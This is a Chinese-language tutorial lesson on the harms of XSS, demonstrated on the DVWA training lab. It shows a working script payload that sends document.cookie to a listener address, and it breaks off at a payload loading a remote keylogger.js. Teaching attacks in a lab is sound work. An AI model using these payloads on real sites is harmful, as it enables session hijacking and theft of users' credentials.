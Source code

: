 你好，我是王昊天。

在上一节课程中，我们学习了什么是XSS攻击，并且介绍了XSS攻击的不同种类。在攻击示例的代码中，我们仅仅是让网页弹出一个警告框，看上去XSS攻击并没有什么作用，但实际上，它的危害性是比较大的。你会好奇XSS攻击会造成哪些危害吗？

这节课，让我们一起来深入了解一下。

## XSS攻击的危害

XSS攻击的危害主要包括四种类型，我已经将它们整理在下图中，它们分别是盗取cookie、按键记录和钓鱼、广告植入以及欺骗跳转。

![图片](https://static001.geekbang.org/resource/image/79/28/7947771b79fb81ebdd8309d45e58a028.jpg?wh=856x412)

首先我们来学习具有代表性的XSS攻击利用，盗取cookie，看看攻击者是如何用XSS攻击实现对cookie的窃取。

### 盗取cookie

cookie在英文中的意思为甜品、饼干，不过这里盗取cookie可不是偷饼干的意思哦。在HTTP请求中，cookie代表着登录信息，我们在Web应用登录成功后，服务器端会生成一个cookie。然后服务器端会将这个生成的cookie发送给我们，供我们之后访问的时候使用。

如果攻击者拿到cookie信息了，那他就可以实现登录我们的账号，这是非常危险的，所以我们平时需要保护好我们的cookie信息。

在了解完cookie是什么之后，让我们用一个示例，一起看看XSS攻击是如何获得cookie信息的。

**这是一个DVWA靶场**，我们在登陆后选择DOM型XSS，获得如下页面：

![图片](https://static001.geekbang.org/resource/image/c6/c4/c6052d10acaea8a2yye19daa008b45c4.png?wh=1904x1152)

在上一讲的实战部分中，我们成功的对这个页面进行了XSS注入攻击，其中使用的payload为：

```javascript
<script>alert(1)</script>
```

在之前的学习中，我们知道它可以让页面弹出一个警告框，但如果我们将这个payload改为如下：

```javascript
<script>var pic=document.createElement("img");pic.src="http://127.0.0.1:2222/getCookie?"+escape(document.cookie)</script>
```

这个payload会调用JavaScript创建一个Element对象，之后将这个对象的src设置为我们监听的地址端口，向这个地址用GET方式上传参数document.cookie，这样我们就能窃取到用户的cookie啦。

![图片](https://static001.geekbang.org/resource/image/ba/ed/bab93ee93711yy226d1896e3c2e257ed.png?wh=1214x544)

可以看到，**我们已经收到这个GET请求了，它的cookie值也被我们接收到了**。

到这里，你已经学习了用XSS攻击来盗取cookie的用法。接下来，让我们来学习如何用XSS攻击实现按键记录以及钓鱼。

### 按键记录和钓鱼

首先我们来看看如何实现按键记录。

我们仍然选择DVWA的XSS(DOM)靶场做测试，只需要更换payload即可，将payload设置为：

```javascript
<script src=http://192.168.3.193/keylogger.js></script>
```
